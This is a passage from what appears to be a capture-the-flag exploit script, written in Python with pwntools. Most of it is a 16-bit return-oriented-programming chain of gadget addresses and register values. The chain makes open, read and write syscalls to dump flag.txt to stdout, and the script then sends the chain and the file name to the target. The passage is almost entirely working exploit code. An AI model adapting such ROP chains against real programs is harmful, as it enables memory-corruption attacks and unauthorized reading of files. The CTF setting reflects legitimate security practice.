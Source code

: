 ```python
    p16(bp_address+0x2a), # bp value calculated considering the distances between elements (updated +0x20)
    set_ax_dx, #mov 0x6(bp) ax, mov 0x8(bp), mov bp sp, pop bp, ret
    p16(0x0), # dummy
    ret, #ret to manage alignment
    triple_pop, #triple pop to move sp and avoid  
    p16(0x3), #dummy value for space reason
    p16(0x5), #ax value (SETS SYSCALL NUMBER - OPEN) 
    p16(0x0), #dx value (not required. will be reset later)
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x36), # new pop bp value
    set_dx_cx_bx, #directly exploit syscall parameters set to set up parameters and bypass ax 
    triple_pop, #triple pop to go to the next call
    p16(bp_address+0x200), #bx - opening flag.txt
    p16(0x0), #cx - set to zero
    p16(0x0), #dx - set to zero

    # # # READ FROM FLAG.TXT
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x4a), # bp value calculated considering the distances between elements (updated +0x20)
    set_ax_dx, #mov 0x6(bp) ax, mov 0x8(bp), mov bp sp, pop bp, ret
    p16(0x0), # dummy
    ret, #ret to manage alignment
    triple_pop, #triple pop to move sp and avoid  
    p16(0x3), #dummy value for space reason
    p16(0x3), #ax value (SETS SYSCALL NUMBER - READ) 
    p16(0x0), #dx value (not required. will be reset later)
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x56), # new pop bp value
    set_dx_cx_bx, #directly exploit syscall parameters set to set up parameters and bypass ax 
    triple_pop, #triple pop to go to the next call
    p16(0x5), #bx - opening flag.txt
    p16(bp_address+0x300), #cx - sets destination where to read flag
    p16(0x40), #dx - amount of bytes to write

    # # # WRITE FROM FLAG.TXT

    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x6a), # bp value calculated considering the distances between elements (updated +0x20)
    set_ax_dx, #mov 0x6(bp) ax, mov 0x8(bp), mov bp sp, pop bp, ret
    p16(0x0), # dummy
    ret, #ret to manage alignment
    triple_pop, #triple pop to move sp and avoid  
    p16(0x3), #dummy value for space reason
    p16(0x4), #ax value (SETS SYSCALL NUMBER - WRITE) 
    p16(0x0), #dx value (not required. will be reset later)
    pop_bp_ret, #pop bp, ret
    p16(bp_address+0x76), # new pop bp value
    set_dx_cx_bx, #directly exploit syscall parameters set to set up parameters and bypass ax 
    triple_pop, #triple pop to go to the next call
    p16(0x1), #bx - write to stdout
    p16(bp_address+0x300), #cx - sets destination where to write flag
    p16(0x34), #dx - amount of bytes to write
    exit #exit to avoid segfaults :-)
)   

io.recvrepeat(timeout=0.2)
io.send(rop_chain)
#io.send(rop_chain)
io.recvrepeat(timeout=0.2)
io.send("./flag.txt\x00")
```